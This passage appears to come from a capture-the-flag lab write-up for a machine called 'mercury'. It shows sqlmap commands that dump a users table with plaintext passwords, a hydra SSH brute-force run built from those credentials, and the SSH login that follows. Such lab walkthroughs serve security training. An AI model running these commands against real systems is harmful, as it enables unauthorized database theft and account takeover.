 ```console
---
```

```console
sqlmap -r sqli.txt --batch -v 3 --dbs
mercury

sqlmap -r sqli.txt --batch -v 3 -D mercury --dump

Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

```
john
laura
sam
webmaster

johnny1987
lovemykids111
lovemybeer111
mercuryisthesizeof0.056Earths
```

```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.57 ssh -t 4

[22][ssh] host: 192.168.1.57   login: webmaster   password: mercuryisthesizeof0.056Earths
```


### SSH as webmaster

```bash
ssh webmaster@192.168.1.57
mercuryisthesizeof0.056Earths
```

![image](../assets/post_img/Snipaste_2024-04-23_22-29-32.png)
